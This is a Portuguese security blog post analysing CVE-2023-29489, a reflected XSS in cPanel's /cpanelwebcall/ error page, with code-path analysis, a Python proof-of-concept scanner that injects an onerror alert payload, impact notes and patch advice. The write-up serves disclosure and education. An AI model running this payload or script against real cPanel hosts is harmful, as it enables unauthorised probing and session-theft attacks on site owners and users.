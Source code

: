 ```yaml
---
layout: post
title:  "Análise da CVE-2023-29489: XSS refletido no cPanel"
date:   2024-05-14
---
```


A CVE-2023-29489[1] trata-se de uma vulnerabilidade de Cross-Site Scripting (XSS)[2] refletido identificada no software de painel de controle de hospedagem cPanel[3], amplamente utilizado na web. A vulnerabilidade XSS permite que um atacante execute scripts maliciosos em uma página que está sendo acessada por outros usuários. O atacante não precisa estar autenticado.

Essa vulnerabilidade foi identificada em 26 de abril de 2023 pela equipe de segurança da Assetnote[4], uma empresa de segurança da Austrália. A vulnerabilidade impacta versões do cPanel anteriores a 11.109.9999.116 e foi corrigida nas versões 11.109.9999.116, 11.108.0.13, 11.106.0.18 e 11.102.0.31 ou em versões posteriores.

Essa publicação está disponível também em: [Inglês](https://blog.lesis.lat/blog/2024-09-10-CVE-2023-29489-EN/)

---

### Descrição

O cPanel é um software feito em Perl[5] com binários gerados a partir do código Perl. Baseado nos binários que podem ser acessados no diretório **/cgi-sys/** nas portas de gerenciamento, nota-se a existência de binários que eram códigos Perl e que são chamados remotamente por meio de solicitações HTTP.

Além dos binários dentro de **/cgi-sys/**, algumas funcionalidades e aplicativos da web do cPanel são atendidos por meio do binário cpsrvd. O binário cpsrvd é executado por padrão nas portas: 2082, 2083, 2086, 2087. Para isso, o cPanel utiliza as funcionalidades de proxy reverso do Apache[6] e a configuração para isso é encontrada em **/etc/apache2/conf/httpd/conf/**. Essas configurações de proxying e aliasse de scripts definem áreas potencialmente interessantes para ataques:

```
ProxyPass /cpanelwebcall/ http://127.0.0.1:2082/cpanelwebcall/ max=1 retry=0

... omitted for brevity ...

ScriptAlias /.cpanel/dcv /usr/local/cpanel/cgi-priv/get_local.cgi

RewriteEngine On

RewriteCond %{REQUEST_URI} ^/\.well-known/acme-challenge/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/cpanel-dcv/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/[A-F0-9]{32}\.txt(?:\ Sectigo\ DCV)?$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/(?:\ Ballot169)?
RewriteRule ^ /.cpanel/dcv [passthrough]
```

O arquivo **Cpanel/Server/Handlers/Httpd.pm** possui uma lógica especifica referente a manipulação de caminhos. Isso permitiu que fossem mapeadas as superfícies de ataques. Dentro do httpd.pm existe um trecho de código que roteia todas as solicitações de um caminho que comece por **/panelwebcall** para uma função chamada **_server_cpanelwebcall** que por sua vez chama outra função, chamada **Chanel::Server::WebCalls::handle** com uma parte da URL como argumento:

```perl
elsif ( 0 == rindex( $doc_path, '/cpanelwebcall/', 0 ) ) {
        # First 15 chars are “/cpanelwebcall/”
        _serve_cpanelwebcall(
            $self->get_server_obj(),
            substr( $doc_path, 15 ),
        );
    }
```


A função **_serve_cpanelwebcall** se parece com isso:

```perl
sub _serve_cpanelwebcall ( $server_obj, $webcall_uri_piece ) {
    require Cpanel::Server::WebCalls;
    my $out = Cpanel::Server::WebCalls::handle($webcall_uri_piece);

    $server_obj->respond_200_ok_text($out);

    return;
}
```


Que nos leva para a função **Chanel::Server::WebCalls::handle**:

```perl
sub handle ($request) {

    my $id = extract_id_from_request($request);
    substr( $request, 0, length $id ) = q<>;

    Cpanel::WebCalls::ID::is_valid($id) or do {
        die _http_invalid_params_err("Invalid webcall ID: $id");
    };
```

A função handle extrai um ID da solicitação e em seguida modifica a solicitação, removendo o ID. Se o ID não for válido, ele gera um erro indicando a solicitação inválida. Quando o erro acontece, a função **_httpd_invalid_params_err** é chamada, onde essa função cria uma exceção chamada **cpsrvd::BadRequest** que leva até o módulo **Cpanel::Server::Handlers::ErrorPage**. Dentro desse módulo existe uma variável chamada **message_html**. A vulnerabilidade está nessa variável, pois ela não está sanitizando a mensagem de erro ao inserir o ID inválido.

---

### Prova de Conceito

Exploit:

```python
#!/usr/bin/env python3
import requests
import argparse
import re

def exploit(target):
    payload = "<img%20src=x%20onerror='alert(1)'>foo"
    if not re.match(r'^https?://', target):
        target = f"https://{target}"

    try:
        response = requests.get(f"{target}/cpanelwebcall/{payload}")
        if payload in response.text:
            return f"The payload [{payload}] worked!"
        else:
            return f"The target [{target}] is not vulnerable."
    except requests.exceptions.RequestException as e:
            return(f"Error making request for {target} -> {e}")

def main():
    parser = argparse.ArgumentParser(description="CVE-2023-29489 | XSS in cPanel")
    parser.add_argument("-t", "--target", required=True)
    args = parser.parse_args()

    try:
        print(exploit(args.target))
    except KeyboardInterrupt:
         exit(1)
    except EOFError:
         exit(1)
if __name__ == '__main__':
    main()
```


---

### Impacto

O impacto dessa vulnerabilidade permite que um invasor execute códigos JavaScript arbitrários, sem estar autenticado, em quase todas as portas de um servidor web que utiliza o cPanel.  Isso ocorre devido as regras de proxy, onde é possível através das portas 80 e 443 acessar o diretório /cpanel/, pois estará sendo redirecionado para as portas de gerenciamento do cPanel pelo Apache.

O fato das portas de gerenciamento do cPanel serem vulneráveis a XSS permite que um atacante roube a sessão de um usuário legítimo, uma vez agindo como um usuário autenticado, é possível fazer upload de uma web shell[7] e obter a execução remota de comandos no servidor.

A vulnerabilidade apresenta uma ameaça significava a segurança da aplicação e é altamente recomendado que os administradores de sistemas atualizem para a versão mais recente.

---

### Conclusão

A versão cPanel aqui discutida, tem uma superfície vulnerável, onde essa vulnerabilidade permite que o atacante execute scripts maliciosos em páginas acessadas pelos usuários comuns, onde o atacante não precisa estar autenticado para explorá-la. A vulnerabilidade é explorável independente da porta do cPanel (2080, 2082, 2083, 2086) estar exposta externamente ou não.   

A exploração dessa vulnerabilidade pode resultar na execução de códigos JavaScript arbitrário em praticamente todas as portas de um servidor web que utilize o cPanel. Isso ocorre devido as regras de proxy que permitem o acesso ao diretório **/cpanel/** mesmo nas portas 80 e 443, redirecionando as solicitações para as portas de gerenciamento do cPanel devido os proxys do Apache.

A vulnerabilidade foi corrigida com patches disponíveis nas versões posteriores ao cPanel 11.109.9999.116. É fundamental que os administradores de sistemas atualizem seus sistemas para a versão mais recente do cPanel e implementem as correções disponíveis para mitigar as ameaças.

- Este artigo foi escrito por Lucas Katashi, atualmente trabalha como pentester e é apaixonado por Red-Team, gosta de codificar ferramentas e o Burp Suite é seu melhor amigo.

---

### Referências

* [1] [MITRE - CVE-2023-29489](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-29489)
* [2] [PortSwigger - Cross-site Scripting](https://portswigger.net/web-security/cross-site-scripting)
* [3] [Hostinger - Domine o cPanel: Prós, Contras e Como Usar](https://www.hostinger.com.br/tutoriais/cpanel-o-que-e-painel-de-hospedagem)
* [4] [Assetnote - Finding XSS in a million websites (cPanel CVE-2023-29489)](https://www.assetnote.io/resources/research/finding-xss-in-a-million-websites-cpanel-cve-2023-29489)
* [5] [Perl - Flexible & Powerful](https://www.perl.org)
* [6] [Apache - Software for the public good](https://www.apache.org)
* [7] [Wikipedia - Web Shell](https://en.wikipedia.org/wiki/Web_shell)
